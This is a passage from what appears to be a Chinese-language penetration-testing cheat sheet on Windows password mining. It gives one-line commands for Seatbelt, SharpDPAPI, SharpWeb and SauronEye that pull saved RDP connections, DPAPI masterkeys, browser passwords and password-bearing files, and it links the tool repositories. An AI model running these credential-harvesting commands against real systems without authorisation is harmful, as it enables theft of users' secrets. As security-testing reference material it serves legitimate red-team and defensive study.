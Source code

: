 方法:

1.

`Seatbelt.exe RDPSavedConnections`

### **Password Mining in MasterKeys**

域：No

Local Admin: Yes

操作系统: Windows

类型: Enumeration & Hunt

方法:

1.

`SharpDPAPI masterkeys`

  

批注：[https://github.com/GhostPack/SharpDPAPI](https://link.zhihu.com/?target=https%3A//github.com/GhostPack/SharpDPAPI)

### **Password Mining in Browsers**

域：No

Local Admin: Yes

操作系统: Windows

类型: Enumeration & Hunt

方法:

1.

`SharpWeb.exe all`

  

批注：[https://github.com/djhohnstein/SharpWeb/releases/tag/v1.2](https://link.zhihu.com/?target=https%3A//github.com/djhohnstein/SharpWeb/releases/tag/v1.2)

### **Password Mining in Files**

域：No

Local Admin: Yes

操作系统: Windows

类型: Enumeration & Hunt

方法:

1.

`SauronEye.exe -d C:\Users\vincent\Desktop\ –filetypes .txt .doc .docx .xls –contents –keywords password pass* -v`
